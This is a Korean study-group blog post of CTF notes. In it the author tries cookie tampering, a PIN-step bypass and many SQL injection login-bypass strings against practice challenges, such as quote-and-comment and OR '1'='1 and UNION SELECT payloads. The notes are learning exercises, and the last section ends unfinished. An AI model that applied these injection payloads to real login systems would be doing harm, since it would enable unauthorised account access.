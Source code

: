 ```yaml
---
layout: post
comments: true
sitemap:
    changefreq: daily
    priority: 0.5

title: "[TIL] ctf 풀이"
excerpt: "모의해킹 취업반 스터디 7기 5주차"

date: 2024-11-18
last_modified_at: 

tags: [TIL]
---
```


# get admin
<img src = "https://cdn.jsdelivr.net/gh/aliquis-facio/aliquis-facio.github.io@master/_image/2024-11-18-1.png?raw=true">
쿠키값을 admin으로 바꾸면 clear

# pin code bypass
<img src = "https://cdn.jsdelivr.net/gh/aliquis-facio/aliquis-facio.github.io@master/_image/2024-11-18-2.png?raw=true">
<img src = "https://cdn.jsdelivr.net/gh/aliquis-facio/aliquis-facio.github.io@master/_image/2024-11-18-3.png?raw=true">
step1 -> step2 -> step3일거라 예상
step3로 값 주면 clear

# Login Bypass 1
1. 
id: doldol
pw: dol1234
2. 
doldol' or '1' = '1
dol1234
3. 
normaltic' or '1' = '1
asdf
-> O

# admin is mine
1. 
id: doldol
pw: dol1234
2. 
id: doldol(')#
pw: dol1234
-> 실행X -> python인가? php도 #으로 주석처리가 되는구나??
3. 
id: doldol(')//
pw: dol1234
-> X, 얘는 왜 실행은 되는거냐?
4. 
id: doldol'--
pw: dol1234
-> X
5. 
doldol' join select * from member where userID like 'a%
dol1234
-> X

# login bypass 2
login bypass 1에서 로그인한 상태로 접속하면 로그인 상태로 접속되길래 normaltic2로 시도해봄.
-> login bypass끼리 sql 공유하는 듯
<img src = "https://cdn.jsdelivr.net/gh/aliquis-facio/aliquis-facio.github.io@master/_image/2024-11-18-4.png?raw=true">
플래그는 안 보임 ㄲㅂ
1. 
id: doldol
pw: dol1234
2. 
id: doldol'or
pw: dol1234
3. 
id: doldol'or
pw: dol1234'or
4. 
id: doldol' or
pw: dol1234' or
-> X
5. 
id: normaltic2'#
pw: asdf
-> O

# login bypass 3
1. 
id: doldol'#
pw: dol1234
2. 
id: normaltic3'#
pw: asdf
-> x
3. 
id: doldol') union select 'normaltic3', '1111
pw: 1111
-> x
4. 
id: doldol') union select 'normaltic3', '1111'#
pw: 1111
5. 
id: doldol' union select 'normaltic3', '1111', '2222'#
pw: 1111, 2222
-> x
6. 
id: normaltic3'#
pw: ' or '1' = '1
-> x
7. 
id: doldol
pw: dol1234' or '1' = '1
-> x
8. 
id: doldol')#
pw: dol1234
-> x
9. 
id: doldol'#
pw: dol1234'#
-> x
10. 
id: doldol' or '1' = '1'
pw: dol1234
-> x

# login bypass 4
1. 
id: doldol' or '1' = '1
pw: dol1234
-> x
2. 
id: doldol'#
pw: dol1234
3. 
id: doldol'or
pw: dol1234
-> x
4. 
id: doldol')#
pw: dol1234
-> x
5. 
